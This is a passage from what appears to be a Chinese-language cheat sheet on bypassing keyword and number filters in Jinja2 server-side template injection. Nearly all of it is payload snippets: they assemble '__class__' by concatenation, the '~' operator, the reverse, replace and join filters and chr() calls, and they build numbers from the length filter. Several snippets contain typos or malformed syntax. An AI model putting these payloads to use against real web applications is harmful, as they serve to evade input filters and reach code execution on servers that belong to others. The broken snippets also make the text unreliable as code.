 #### 编码绕过（就是上文中的编码绕过）

## 2.简单拼接

```
'__c'+'lass__'
```

小括号大括号中括号都适用

## 3.使用Jinjia2中的‘~’进行拼接：

```
{%set a="__cla"%}{%set b="ss__"%}{{a~b}}
```

## 4.使用过滤器reverse反转、replace替换、join拼接

### 1.reverse反转

```
{%set a="__ssalc__"|reverse%}{{a}}
```

### replace替换

```
{{()[‘__class__’]}}等价于{%set a=”__claee__”|replace("ee","ss")%}{{()[a]}}
```

### join拼接

```
{%set a=dict(__cla=a,ss__=a)|join%}{{()[a]}}
```

```
(%set a=[‘__cla’,’ss__’]|join%}{{()[a]}}
```



## 使用python的char（）

```
{%set chr=url.for__globlas__['__builtins__'].chr%}
{{""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}
```

# 14.绕过数字过滤

首先介绍length过滤器，length过滤器通常用于获取数据结构（比如列表、字典或字符串）的长度

```
{% set a=’aaaaaaaaaa’|length %}{{a}}  #10

{% set a=’aaaaaaaaaa’|length*’aaa’|length %}{{a}}  #30

{% set a=’aaaaaaaaaa’|length*’aaaaaaaaaaaa’|length-’aaa’ |length %}{{a}}   #117

10个a*12个a-3个a=117个a
```
